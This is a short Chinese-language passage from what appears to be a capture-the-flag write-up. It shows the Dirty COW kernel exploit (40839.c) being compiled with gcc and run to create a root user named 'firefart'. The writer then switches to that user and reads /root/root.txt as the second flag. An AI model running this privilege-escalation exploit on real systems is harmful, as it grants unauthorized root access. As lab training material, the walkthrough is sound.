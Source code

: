 也就是该程序执行时需要欸他一个新的密码，然后创建用户名为firefart的rot用户，运行后成功，可以切换到该用户





#### 编译

```
gcc -pthread 40839.c -o dirty -lcrypt
```

![image-20250315055447563](assets/image-20250315055447563.png)

```
./dirty
su firefart
```

![image-20250315055458522](assets/image-20250315055458522.png)





#### 得到第二个flag

```
cd /root
ls
cat root.txt
```

![image-20250315055554143](assets/image-20250315055554143.png)